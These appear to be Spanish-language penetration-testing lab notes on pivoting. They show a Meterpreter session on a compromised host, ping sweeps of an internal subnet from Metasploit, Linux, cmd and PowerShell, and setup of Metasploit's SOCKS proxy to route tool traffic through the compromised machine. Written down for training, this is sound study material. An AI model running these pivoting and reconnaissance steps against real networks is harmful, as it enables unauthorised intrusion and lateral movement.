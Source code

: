 ### Sesión meterpreter establecida
```shell-session
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```
La enviamos a segundo plano con "bg".

Sabemos que la sesión de la víctima WINDOWS se encuentra en la red 172.16.5.0/23.
Mediante meterpreter (asumiendo que los PINGs están activados), vamos a contactar con dicha máquina:
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

Podrían darse situaciones en las que el firewall de un host bloquee el ping (ICMP) y este no nos proporcione respuestas correctas. En estos casos, podemos realizar un escaneo TCP en la red 172.16.5.0/23 con Nmap. 

Alternativas para hacer ping:
##### 1. PING SWEEP desde terminal Linux
```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

##### 2. Ping SWEEP desde terminal Windows (cmd)
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

##### Ping SWEEP desde terminal Windows (PowerSHell)
```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```

----
## Configurando el MSF's SOCKS Proxy
En otra sesión de msfconsole (dejamos abierta la anterior del meterpreter) en lugar de usar SSH para el redireccionamiento de puertos, también podemos usar el módulo de enrutamiento post-explotación de Metasploit, "socks_proxy", para configurar un proxy local en nuestro host de ataque. Configuraremos el proxy SOCKS para la versión 4a de SOCKS. Esta configuración de SOCKS iniciará un receptor en el puerto 9050 y enrutará todo el tráfico recibido a través de nuestra sesión de Meterpreter. 

Esto crea un servidro proxy socks en mi máquina atacante. Cualquier herramienta compatible con proxy_socks (como nmap con proxychains) la podré utilizar.
Es el puente para retransmitir todo el tráfico de mis herramientas a través de la máquina ya comprometida.
```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
```